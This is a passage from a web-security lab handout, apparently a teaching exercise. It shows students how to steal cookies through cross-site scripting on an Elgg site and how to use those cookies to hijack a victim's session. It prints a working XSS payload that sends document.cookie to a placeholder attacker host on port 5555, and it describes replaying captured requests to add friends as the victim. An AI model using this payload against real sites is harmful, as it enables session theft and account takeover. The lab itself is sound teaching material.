 \subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine, where the attacker has a TCP server listening 
to the same port. The server can print out whatever it receives. 
The TCP server program is in the echoserver directory on the attacher computer.

{\footnotesize
\begin{Verbatim}[frame=single] 
 <script>document.write('<img src=http://attacker_IP_address:5555?c=' 
                                  + escape(document.cookie) + '   >'); 
 </script> 
\end{Verbatim}
}


\subsection{Task 4: Session Hijacking using the Stolen Cookies}

After stealing the victim's cookies, the attacker can do whatever the victim
can do to the {\tt Elgg} web server, including adding and deleting friends
on behalf of the victim, deleting the victim's post, etc. Essentially, 
the attacker has hijacked the victim's session. 
In this task, we will launch this session hijacking attack, and
write a program to add a friend on behalf of the victim. 
The attack should be launched from another virtual machine.


To add a friend for the victim, we should first find out how a legitimate 
user adds a friend in {\tt Elgg}.
More specifically, we need to figure out what are sent to the server when a user 
adds a friend. Firefox's {\tt LiveHTTPHeaders} extension can help us; it 
can display the contents of any HTTP request message sent 
from the browser. From the contents, we can identify all
the parameters in the request. A screen shot of {\tt LiveHTTPHeaders} is given in
Figure~\ref{fig:livehttptext}. The {\tt LiveHTTPHeaders} 
is already installed in the pre-built \ubuntu VM image.


